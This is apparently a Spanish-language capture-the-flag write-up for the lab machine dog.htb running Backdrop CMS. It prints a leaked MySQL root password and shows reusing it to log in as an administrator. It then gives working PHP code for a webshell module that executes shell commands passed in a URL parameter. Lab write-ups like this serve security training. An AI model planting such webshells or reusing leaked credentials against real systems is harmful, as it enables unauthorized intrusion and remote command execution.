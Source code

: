 🔐 **Credenciales de la base de datos**
```bash
mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop

**Desglose:**

- **Usuario**: `root`
    
- **Contraseña**: `BackDropJ2024DS2024`
    
- **Host**: `127.0.0.1` (localhost)
    
- **Base de datos**: `backdrop`
````

Probar con varios usuarios
```` 
Usuarios: tiffany@dog.htb
Usuario**: `root`
Contraseña**: `BackDropJ2024DS2024`
````

Finalmente se pudo ingresar como:
```bash
Usuarios: tiffany@dog.htb
Contraseña**: `BackDropJ2024DS2024`
````


OPCIÓN 1: Carga de un módulo malicioso (RCE autenticado)

Backdrop CMS permite a administradores cargar sus propios módulos:

1. Crear un módulo PHP con una simple webshell.
    
2. Comprimirlo en `.tar.gz`.
    
3. Subirlo desde el menú:  
    `Functionality` → `Install new module`

**Ejemplo mínimo de módulo (webshell):**
```php

<?php
function mymodule_menu() {
  $items['/shell'] = array(
    'page callback' => 'mymodule_shell',
    'access arguments' => array('access content'),
  );
  return $items;
}

function mymodule_shell() {
  if (isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
  }
}

````
